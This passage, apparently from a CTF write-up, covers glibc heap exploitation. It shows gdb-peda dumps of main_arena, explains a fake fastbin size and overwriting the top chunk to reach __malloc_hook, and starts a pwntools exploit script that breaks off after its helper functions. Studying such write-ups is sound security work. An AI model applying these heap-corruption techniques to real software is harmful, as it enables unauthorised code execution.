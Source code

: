 {% highlight text %}
gdb-peda$ x/10gx 0x00007ffff7a4fb45
0x7ffff7a4fb45 <main_arena+37>: 0x5555769d7000007f  0x0000000000000055  <-- fake size
0x7ffff7a4fb55 <main_arena+53>: 0x0000000000000000  0x0000000000000000
0x7ffff7a4fb65 <main_arena+69>: 0x0000000000000000  0x0000000000000000
0x7ffff7a4fb75 <main_arena+85>: 0x5555769e20000000  0x5555769db0000055
0x7ffff7a4fb85 <main_arena+101>:    0x5555769db0000055  0x5555769db0000055
{% endhighlight %}

OK, we control the new `top` chunk, where do we point it ? Haha, at `&__malloc_hook - 0x28` of-course :).

{% highlight text %}
gdb-peda$ x/40gx 0x00007ffff7dd1ae0
0x7ffff7dd1ae0: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1af0: 0x00007ffff7dd0260  0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:   0x00007ffff7a93270  0x00007ffff7a92e50
0x7ffff7dd1b10 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b20: 0x0000000000000000  0x0000555555769d70
0x7ffff7dd1b30: 0x0000555555769dd0  0x0000000000000000
0x7ffff7dd1b40: 0x0000000000000000  0x0000565555769d70
0x7ffff7dd1b50: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b60: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b70: 0x0000000000000000  0x00007ffff7dd1ae8  <-- new_top
0x7ffff7dd1b80: 0x0000000000000000  0x00007ffff7dd1b78  <-- unsorted bin
0x7ffff7dd1b90: 0x00007ffff7dd1b78  0x00007ffff7dd1b00  <-- unsorted bin
0x7ffff7dd1ba0: 0x00007ffff7dd1b88  0x00007ffff7dd1b98
0x7ffff7dd1bb0: 0x00007ffff7dd1b98  0x00007ffff7dd1ba8
{% endhighlight %}

As you can see if `new top` starts at `0x7ffff7dd1ae8` the pointer at `0x7ffff7dd1af0` is going to serve as `new_top->size` and we are all good, yes even with the LSB(it) being 0.

My biggest frustration with this tactic is that the unsorted bin did not point to itself meaning there is a free chunk in the unsorted bin, meaning new allocations will not be served from the top chunk. So with the overwrite of the `top` chunk I also had to NULL the `last_remainder ptr` (which is located at `0x7ffff7dd1b80`) and restore the unsorted bin ptrs to the address of `&main_arena->top`

Another hiccup is the "fake size" from the MSB(yte) of one of the pointers in the fastbins. with ASLR the heap has a chance to start with either `0x55` or `0x56` address. Without ASLR it's only `0x55`. In my calculations this only worked with "fake size" of `0x56`, `0x55` fails the index of fastbin allocation check. I'm assuming "fake size" of `0x55` can pass the check if the "fake fastbin ptr" is placed 1 slot before where it's currently located.

## Full exploit script

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def put_milk(inBuf, color):
    r.sendline('p')
    r.recvuntil(': ')
    r.send(inBuf)
    r.recvuntil(': ')
    r.send(color)
    r.recvuntil('> ', timeout=1)

def view():
    r.sendline('v')
    return r.recvuntil('> ', drop=True)

def remove(idx):
    r.sendline('r')
    r.recvuntil(' : ')